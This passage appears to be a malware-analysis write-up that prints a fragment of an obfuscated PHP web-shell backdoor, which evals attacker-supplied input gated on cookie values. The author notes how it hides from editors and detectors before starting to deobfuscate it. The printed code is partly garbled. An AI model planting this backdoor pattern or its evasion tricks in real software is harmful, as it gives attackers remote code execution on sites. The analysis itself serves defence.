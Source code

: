 ```php
['f884b'][63].$rb22c05fb['f884b'][58].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][5]]($e76477), $k93f152));if (isset($e76477[$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][35]]) && $x864b367c==$e76477[$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][35]]){if ($e76477[$rb22c05fb['f884b'][43]] == $rb22c05fb['f884b'][22]){$n28c = Array($rb22c05fb['f884b'][97].$rb22c05fb['f884b'][69] => @$rb22c05fb[$rb22c05fb['f884b'][12].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][9].$rb22c05fb['f884b
$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][37].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][23].$rb22c05fb['f884b'][52],);echo @$rb22c05fb[$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][15].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][15].$rb22c05fb['f884b'][5]]($n28c);}elseif ($e76477[$rb22c05fb['f884b'][43]] == $rb22c05fb['f884b'][78]){eval/*v4c8*/($e76477[$rb22c05fb['f884b'][88]]);}exit();} ?>
```

At first glance there's a couple of things to notice:

-   The script is all in one line, with a full "page" of space at the
    beginning, likely in attempt to go unnoticed in a text editor
    without word wrap.
-   It is highly obfuscated.
-   The "global" keyword can be seen used alot of places.
-   Once again the use of the \$\_COOKIE superglobal can be observed.
-   The "eval" function is at the end, separated by a /\* \*/ comment
    block, likely in an attempt to hide from automated detection.

Next let's go ahead and add some quick linebreaks and indentation, to
make it abit more readable:
